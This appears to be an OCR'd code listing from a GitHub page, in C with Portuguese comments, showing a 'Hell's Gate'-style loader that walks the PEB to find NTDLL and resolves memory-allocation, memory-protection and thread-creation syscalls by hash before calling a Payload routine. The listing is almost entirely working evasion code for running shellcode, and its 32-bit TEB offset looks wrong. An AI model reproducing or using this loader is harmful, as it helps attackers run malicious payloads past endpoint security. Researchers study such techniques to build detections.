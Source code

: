 ```c
extern HellDescent();

INT wmain() {

	PTEB pCurrentTeb = RtlGetThreadEnvironmentBlock();
	PPEB pCurrentPeb = pCurrentTeb->ProcessEnvironmentBlock;
	if (!pCurrentPeb || !pCurrentTeb || pCurrentPeb->OSMajorVersion != 0xA)
		return 0x1;

	// Pega a NTDLL
	PLDR_DATA_TABLE_ENTRY pLdrDataEntry = (PLDR_DATA_TABLE_ENTRY)((PBYTE)pCurrentPeb->LoaderData->InMemoryOrderModuleList.Flink->Flink - 0x10);

	// Acessa a EAT dentro da NTDLL
	PIMAGE_EXPORT_DIRECTORY pImageExportDirectory = NULL;
	if (!GetImageExportDirectory(pLdrDataEntry->DllBase, &pImageExportDirectory) || pImageExportDirectory == NULL)
		return 0x01;

	VX_TABLE Table = { 0 };
	
	Table.NtAllocateVirtualMemory.dwHash = 0xf5bd373480a6b89b;
	if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &Table.NtAllocateVirtualMemory))
		return 0x1;

	Table.NtCreateThreadEx.dwHash = 0x64dc7db288c5015f;
	if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &Table.NtCreateThreadEx))
		return 0x1;

	Table.NtProtectVirtualMemory.dwHash = 0x858bcb1046fb6a37;
	if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &Table.NtProtectVirtualMemory))
		return 0x1;

	Table.NtWaitForSingleObject.dwHash = 0xc6a2fa174e551bcb;
	if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &Table.NtWaitForSingleObject))
		return 0x1;

	printf("[+]VX_TABLE= %p\n", Table);
	
	Payload(&Table);
	return 0x00;
}

PTEB RtlGetThreadEnvironmentBlock() {
#if _WIN64
	return (PTEB)__readgsqword(0x30);
#else
	return (PTEB)__readfsdword(0x16);
#endif
}

DWORD64 djb2(PBYTE str) {
	DWORD64 dwHash = 0x7734773477347734;
	INT c;

	while (c = *str++)
		dwHash = ((dwHash << 0x5) + dwHash) + c;

	return dwHash;
}
```